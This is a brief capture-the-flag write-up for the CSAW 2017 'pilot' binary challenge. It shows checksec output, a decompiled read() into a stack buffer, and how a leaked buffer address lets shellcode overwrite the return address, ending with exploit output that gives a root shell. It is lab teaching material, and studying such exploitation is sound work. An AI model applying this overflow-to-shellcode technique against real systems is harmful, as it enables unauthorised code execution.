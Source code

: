 # CSAW 2017 pilot

This appears to be a ```C++``` binary. Looking over ```checksec```:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

```c
  this_00 = (basic_ostream<char,std--char_traits<char>> *)
            operator<<((basic_ostream<char,std--char_traits<char>> *)this,local_28);
  operator<<(this_00,endl<char,std--char_traits<char>>);
  operator<<<std--char_traits<char>>((basic_ostream *)cout,"[*]Command:");
  sVar1 = read(0,local_28,0x40);
```
We are given the address of ```local_28```, which is at ```rbp-0x20```. We can write a ```shellcode``` and overflow until we reach ```ret```, which we will replace with that address.

```bash
[root@pwn:~/csaw17_pilot]$ python expl.py 
[+] Starting local process './pilot': pid 2185
0x7fff31ffb560
[*] Switching to interactive mode
[*]Command:$ whoami
root
```